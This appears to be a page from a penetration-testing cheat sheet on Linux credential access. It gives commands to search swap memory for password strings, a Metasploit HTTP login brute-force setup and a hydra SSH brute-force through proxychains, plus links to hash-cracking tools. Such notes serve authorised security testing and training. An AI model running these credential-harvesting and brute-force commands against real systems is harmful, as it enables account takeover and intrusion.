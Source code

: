 # Linux Passwd / Shadow
### [Password Hashes](../../Services/Cryptography/Hashes/README.md#Shadow-File-Password-Hashes)

### John The Ripper
##### [Unshadow Linux Hashes Cracking](../../Tools/Credentials_Cryptography/JohnTheRipper/README.md#Unshadow-for-Linux-Hashes-Cracking)

##### [Crack Linux Hashes](../../Tools/Credentials_Cryptography/JohnTheRipper/README.md#Crack-Linux-Hashes)

### MimiPenguin
##### [Run as Shell Script](../../Tools/Credentials_Cryptography/MimiPenguin/README.md#Run-as-Shell-Script)

##### [Run as Python Script](../../Tools/Credentials_Cryptography/MimiPenguin/README.md#Run-as-Python-Script)

### From Swap Memory
##### Find Swap File
```bash
swapon -s

cat /proc/swaps
```
##### Look for Passwords
```bash
# Assuming found swap file as /dev/sda5
strings /dev/sda5 | grep "password="
strings /dev/sda5 | grep "&password="
```
##### [Using Swap Digger](../../Tools/Credentials/SwapDigger/README.md#Find-Passwords-in-Swap-File)

# Services
### HTTP Credentials
##### Metasploit http_login
```bash
msfconsole -q
use auxiliary/scanner/http/http_login
set RHOSTS [Target Host]
set AUTH_URI [Directory]
set USER_FILE [Username List]
set PASS_FILE [Password List]
set VERBOSE false
run
```

### SSH
##### Bruteforce SSH over Proxychains
```bash
proxychains hydra -l administrator -P [Password List] [Target Host] ssh
```


# References
[statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

[smtp-user-enum](https://pentestmonkey.net/tools/user-enumeration/smtp-user-enum)

[smtp_enum](https://www.rapid7.com/db/modules/auxiliary/scanner/smtp/smtp_enum/)

[smb_login](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login/)

[owa_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login/)

[Reverse brute-force attack](https://en.wikipedia.org/wiki/Brute-force_attack#Reverse_brute-force_attack)

[NT PW Recovery "booting the kernel"](https://community.infosecinstitute.com/discussion/97802/nt-pw-recovery-booting-the-kernel)

[Reset Windows 10 Local Password with Kali Linux Live USB](https://www.top-password.com/knowledge/reset-windows-10-password-with-kali-linux.html)